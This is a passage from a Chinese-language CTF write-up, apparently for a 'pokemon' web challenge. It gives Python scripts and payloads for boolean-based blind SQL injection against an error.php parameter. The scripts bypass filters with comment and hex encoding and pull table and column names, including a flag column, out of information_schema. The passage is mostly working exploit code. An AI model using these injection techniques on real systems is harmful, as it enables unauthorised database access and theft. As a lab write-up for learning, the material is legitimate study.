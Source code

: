 ```python
            max_value = mid
        mid = (min_value + max_value) // 2
    dbs += chr(mid)
    print(dbs)
```

![image-20220316154816406](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220316154816406.png)

得到表名errors,seeeeeeecret，不过爆数据列的时候我是用table_schema = 'pokemon'的所以说这个表名没有用上，另外这个脚本有些问题，因为我没判断长度，所以说爆出来的长度不太确定，但是通常不会在末尾有重复字符

## 列名

原payload:`?code=404 and (ascii(substr((select column_name from information_schema.columns where table_schema='pokemon' limit 0,1),1,1)))>? `

```python
# -*- coding: utf-8 -*-
import requests
import re

findlink = re.compile(r'(.*) Pokemon (.*?) .*')
baseurl = "http://146.56.223.34:65432/error.php?code="
dbs = ""
for i in range(1, 100):
    print('----------------------------------------------------')
    min_value = 33
    max_value = 130
    mid = (min_value + max_value) // 2  # 中值
    while (min_value < max_value):
        code = f"404/**/%26%26/**/ascii(right(left((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema/**/in/**/(0x706f6b656d6f6e)/**/limit/**/0,1),{i}),1))>{mid}"
        payload = baseurl + code
        r = requests.get(payload)
        # 回显404说明表达式成立，mid太小
        if (len(re.findall(findlink, r.text)) != 0):
            min_value = mid + 1
        # 无回显说明表达式不成立，mid太大
        else:
            max_value = mid
        mid = (min_value + max_value) // 2
    dbs += chr(mid)
    print(dbs)
```

![image-20220316154513548](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220316154513548.png)

得到列名id,code,msg,flag

## 值
